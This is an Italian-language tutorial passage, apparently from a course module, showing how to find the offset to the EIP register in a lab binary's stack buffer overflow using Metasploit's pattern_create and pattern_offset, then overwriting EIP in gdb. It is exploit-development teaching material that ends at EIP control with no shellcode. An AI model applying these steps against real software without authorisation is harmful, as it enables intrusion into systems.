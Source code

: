 Lo shellcode è un codice di programma che contiene le istruzioni per un'operazione che vogliamo far eseguire alla CPU. La creazione manuale dello shellcode sarà discussa in dettaglio in altri moduli. Ma per risparmiare tempo, prima utilizziamo il Metasploit Framework (MSF) che offre uno script Ruby chiamato "pattern_create" che può aiutarci a determinare il numero esatto di byte per raggiungere l'EIP. Crea una stringa unica basata sulla lunghezza dei byte specificati per aiutare a determinare l'offset.

```shell
# creazione del pattern
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
```

Ora sostituiamo le nostre 1200 "U" con i modelli generati e concentriamo nuovamente la nostra attenzione sull'EIP.

```shell
# uso del pattern appena generato
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()

(gdb) info registers eip
eip            0x69423569	0x69423569
```

Vediamo che l'EIP visualizza un indirizzo di memoria diverso e possiamo usare un altro strumento MSF chiamato "pattern_offset" per calcolare il numero esatto di caratteri (offset) necessari per passare all'EIP.

```shell
# calcolo preciso delle dimensioni dell'offset
# 0x69423569 e' l'indirizzo di memoria trovato ispezionando il binario con (gdb) info registers eip
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
```

Se ora utilizziamo esattamente questo numero di byte per le nostre "U", dovremmo arrivare esattamente sull'EIP. Per sovrascriverlo e verificare se lo abbiamo raggiunto come previsto, possiamo aggiungere altri 4 byte con "\x66" ed eseguirlo per assicurarci di controllare l'EIP.

```shell
# il valore exact_match e' restituito in output da
# $ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
# dove 0x69423569 e' l'indirizzo di memoria trovato ispezionando il binario con (gdb) info registers eip
# dopo aver runnato il binaro con il payload
(gdb) run $(python -c "print '\x55' * <exact_match> + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()

(gdb) info registers eip
eip            0x66666666       0x66666666
```
